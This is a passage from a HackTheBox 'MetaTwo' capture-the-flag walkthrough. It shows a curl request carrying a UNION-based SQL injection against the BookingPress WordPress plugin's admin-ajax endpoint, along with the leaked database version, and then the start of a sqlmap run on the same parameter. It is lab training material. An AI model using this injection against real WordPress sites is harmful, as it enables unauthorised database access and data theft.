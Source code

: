 So, now, go to `/events` page and find the request from `admin-ajax.php` to retrieve the value of `_wpnonce` parameter.

![meta-8](https://user-images.githubusercontent.com/87711310/218543629-5f933219-0554-4210-aa58-f212e257100f.png)


Once the value is retrieved, replace that value in the request payload you previously sent.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 13 Feb 2023 15:10:19 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]                                                                                                                                                                                   
```

Once you hit send, you'll get a `200 OK` along with other data instead of an error received when you sent the previous payload.

Now, that we know that we got a `SQL Injection`, I switched to `sqlmap` to craft the payload.

```
sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1' -p total_service 
```


```SQL
┌──(darshan㉿kali)-[~]
└─$ sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1' -p total_service      
        ___
       __H__                                                                                                                                           
 ___ ___[.]_____ ___ ___  {1.7.2#stable}                                                                                                               
|_ -| . [']     | .'| . |                                                                                                                              
|___|_  [)]_|_|_|__,|  _|                                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                                           

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

```